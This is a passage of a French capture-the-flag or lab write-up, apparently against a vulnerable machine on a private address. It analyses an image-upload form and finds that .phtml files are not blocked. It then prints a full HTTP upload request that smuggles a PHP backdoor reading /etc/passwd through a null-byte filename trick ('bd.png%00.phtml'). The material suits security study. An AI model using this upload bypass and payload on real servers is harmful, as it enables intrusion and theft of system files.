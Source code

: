 L'upload d'une image via *upload.php* retourne un entête *Set-Cookie* du type *trypios=8b5cb558df4975b840dc6bfadc689530* ainsi que le contenu web suivant :

```html
<script type="text/javascript"> window.location = "http://192.168.1.30:8880/image.php" </script>
```

Le navigateur enchaîne donc sur */image.php* avec le nouveau cookie. La page retourne un html avec un tag *img* qui reprend la valeur envoyée par le cookie.  

Au passage le cookie est réinitialisé (*Set-Cookie: trypios=uploader*) en vue d'un prochain upload.  

D'où vient le hash de l'image utilisé comme valeur de cookie et comme nom de l'image uploadée ? Si on envoie deux fois de suite la même image, le hash sera le même.  

En revanche si on renvoie toujours la même image mais avec un nom différent le hash change. Après vérification le hash correspond en effet à la somme MD5 du nom de fichier original.  

On remarque aussi une particularité concernant le dossier */images/* où sont stockées les images uploadés :  

Si on remplace l'extension *png* par *php* dans la barre d'adresse du navigateur on obtient une erreur 403 (accès refusé) alors que si on met une extension au hasard (.truc) on obtient un 404.  

Il en va de même avec des fichiers inexistants : 403 pour */images/whatever.php*, 404 pour */images/whatever.truc*.  

On est donc en présence d'une directive Apache (probablement un *htaccess*) qui bloque l'accès aux fichiers *php* dans ce dossier.  

A noter que l'extension *.phtml* n'est pas bloquée et retourne un 404 pour un fichier inexistant.  

Seulement il ne suffit pas d'envoyer un fichier en .phtml.png pour qu'il soit accessible avec l'extension *.phtml* dans */images/*.  

Il faut donc ruser sur l'extension.  

Envoie sa sœur
--------------

Pour cette opération j'ai eu recours à [Charles Proxy](http://www.charlesproxy.com/). La version d'essai suffit.  

Il doit être possible d'utiliser des outils similaires comme *Zed Attack Proxy* ou *Burp* mais j'ai pris l'habitude de *Charles* qui est très évolué.  

Après voir configuré *Charles* comme proxy HTTP intercepteur et fait un upload de la backdoor en *.png.html*, on édite la requête HTTP pour modifier l'extension en *.png%00.phtml* (on injecte un octet nul) :  

```plain
POST /upload.php HTTP/1.1
Host: 192.168.1.30:8880
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: text
Referer: http://192.168.1.30:8880/index.php
Cookie: trypios=nop
Connection: keep-alive
Content-Type: multipart/form-data; boundary=charles-multipart1403440237845-41248
Content-Length: 333

--charles-multipart1403440237845-41248
Content-Disposition: form-data; name="image"; filename="bd.png%00.phtml"
Content-Type: application/php

<? readfile("/etc/passwd"); ?>

--charles-multipart1403440237845-41248
Content-Disposition: form-data; name="Submit"

```
